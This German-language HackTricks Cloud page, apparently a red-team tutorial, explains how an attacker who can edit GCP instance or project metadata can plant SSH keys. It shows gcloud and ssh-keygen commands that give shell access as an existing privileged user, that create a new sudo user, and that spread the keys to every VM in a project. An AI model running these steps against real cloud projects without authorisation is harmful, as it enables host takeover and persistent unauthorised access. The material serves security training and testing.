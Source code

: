 # GCP - Hinzufügen von benutzerdefinierten SSH-Metadaten

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## Ändern der Metadaten <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Änderung von Metadaten auf einer Instanz kann zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

### **Integration von SSH-Schlüsseln in benutzerdefinierte Metadaten**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux-Gastumgebung für Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein wichtiger Bestandteil davon ist der [Accounts-Daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Aktualisierungen der autorisierten SSH-Public Keys** zu überprüfen.

Daher könnte ein Angreifer, der benutzerdefinierte Metadaten ändern kann, den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und in das lokale System **integriert wird**. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise einen neuen Benutzer mit `sudo`-Berechtigungen erstellen**, abhängig vom Format des Schlüssels. Der Angreifer kann dann den Host kompromittieren.

### **SSH-Schlüssel zu vorhandenem privilegierten Benutzer hinzufügen**

1. **Existierende SSH-Schlüssel auf der Instanz überprüfen:**
- Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben und vorhandene SSH-Schlüssel zu lokalisieren. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell unter dem Schlüssel `ssh-keys`.
```bash
gcloud compute instances describe [INSTANZ] --zone [ZONE]
```
- Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername geht dem Schlüssel voraus, getrennt durch einen Doppelpunkt.

2. **Vorbereiten einer Textdatei für SSH-Schlüsselmetadaten:**
- Speichern Sie die Details von Benutzernamen und ihren entsprechenden SSH-Schlüsseln in einer Textdatei mit dem Namen `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten und neue hinzuzufügen.

3. **Generieren eines neuen SSH-Schlüssels für den Zielbenutzer (`alice` in diesem Beispiel):**
- Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei darauf geachtet wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, wobei das Format in den Metadaten der Instanz nachgeahmt wird.

4. **Aktualisieren der SSH-Schlüsselmetadaten der Instanz:**
- Wenden Sie die aktualisierten SSH-Schlüsselmetadaten auf die Instanz mit dem Befehl `gcloud compute instances add-metadata` an.
```bash
gcloud compute instances add-metadata [INSTANZ] --metadata-from-file ssh-keys=meta.txt
```

5. **Zugriff auf die Instanz mit dem neuen SSH-Schlüssel:**
- Verbinden Sie sich mit SSH mit dem neuen Schlüssel mit der Instanz und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Erstellen eines neuen privilegierten Benutzers und Hinzufügen eines SSH-Schlüssels**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Berechtigungen erteilt werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den SSH-Zugriff auf mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet** werden. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht explizit projektweite SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
- Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel auf allen VMs im Projekt erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH auf Instanzen mit projektweiten Schlüsseln durchführen:**
- Mit projektweiten SSH-Schlüsseln können Sie auf jede Instanz innerhalb des Projekts zugreifen. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
- Eine direkte Methode, um sich bei einer Instanz anzumelden, besteht darin, den Befehl `gcloud compute ssh [INSTANZ]` zu verwenden. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.


# Referenzen
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
